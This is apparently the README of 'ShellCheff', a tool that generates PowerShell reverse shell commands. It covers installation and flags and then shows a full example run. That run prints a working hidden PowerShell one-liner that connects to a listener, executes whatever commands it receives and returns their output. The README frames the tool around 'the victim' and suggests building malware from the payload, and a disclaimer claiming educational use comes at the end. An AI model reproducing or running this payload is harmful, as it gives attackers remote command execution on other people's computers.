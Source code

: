 # ShellCheff
A tool that quickly generates PowerShell Reverse Shell commands to get remote access FAST, incredibly FAST.

# Installation

Clone the repository :
```bash
https://github.com/Alperosci/ShellCheff.git
cd ShellCheff
```

Run the installation file:
```bash
chmod +x install.sh
./install.sh
```

# Usage

This is all flags and usages in tool:
```
usage: ShellCheff [-h] [-v] [-i IP] [-p PORT]

A program that allows you to make ReverseShell attacks FAST, incredibly FAST

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -i IP, --ip IP        Listener IP
  -p PORT, --port PORT  Listener PORT
```

## Example Usage
```
ShellCheff -i 127.0.0.0 -p 4444
 ____   _            _  _   ____  _             __   __ 
/ ___| | |__    ___ | || | / ___|| |__    ___  / _| / _|
\___ \ | '_ \  / _ \| || || |    | '_ \  / _ \| |_ | |_ 
 ___) || | | ||  __/| || || |___ | | | ||  __/|  _||  _|
|____/ |_| |_| \___||_||_| \____||_| |_| \___||_|  |_|  
                                                        

powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client=New-Object System.Net.Sockets.TCPClient('127.0.0.0',4444);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=iex $data 2>&1 | Out-String;$sendback2=$sendback+'PS>'; $sendbyte=[Text.Encoding]::ASCII.GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"

            ^
            |
Use this command in Powershell (or you can create a malware) to get powershell SHELL

Creating listener

Listening on 0.0.0.0 4444
```

When the victim runs the payload, you will get a PowerShell session on their machine.

# Legal Notice / Disclaimer

This tool is developed for educational and authorized penetration testing purposes only.

Unauthorized use of this software against systems or networks without explicit permission is illegal and punishable by law.

By using this tool, you agree to take full responsibility for your actions and ensure that you have proper authorization before performing any security testing or exploitation.

The author is not responsible for any misuse or damage caused by this software.
